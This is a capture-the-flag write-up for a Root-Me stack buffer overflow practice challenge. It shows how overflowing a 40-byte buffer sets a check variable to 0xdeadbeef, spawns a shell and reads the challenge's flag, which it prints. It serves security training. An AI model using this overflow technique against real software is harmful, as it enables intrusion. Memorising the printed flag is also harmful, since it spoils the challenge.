 # ELF x86 - Stack buffer overflow basic 1
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-1
```
Pwn the binary, read the flag in .passwd.

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge04.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch13@challenge02.root-me.org   
Username	app-systeme-ch13
Password	app-systeme-ch13
```

According to the source code (provided in the challenge page), the goal is to change the _check_ variable to 0xdeadbeef.<br>
In addition, the executable will print the values of _check_ and _buf_.<br>

As you may see in the source code, the _buf_ variable is 40 bytes long, and it comes right after the _check_ variable. So, in order to
overwrite the _check_, one should fill the _buf_ variable and then enter the wanted value of check - there is no boundary check so it's possible.<br>

A quick check for validating the last statement:
```sh
app-systeme-ch13@challenge02:~$ python -c "print 'A'*40 + 'DDDD'" | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDDD
[check] 0x44444444

You are on the right way!
```

As you may see, the _check_ value is now "DDDD". So let's change it to 0xdeadbeef:
```sh
app-systeme-ch13@challenge02:~$ cat <(python -c "print 'A'*40 + '\xef\xbe\xad\xde'") - | ./ch13 

[buf]: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�
[check] 0xdeadbeef
Yeah dude! You win!
Opening your shell...
id
uid=1113(app-systeme-ch13) gid=1113(app-systeme-ch13) euid=1213(app-systeme-ch13-cracked) groups=1213(app-systeme-ch13-cracked),100(users),1113(app-systeme-ch13)
cat .passwd
1w4ntm0r3pr0np1s
```
(The _cat_ and the '-' are used for keeping the shell open)
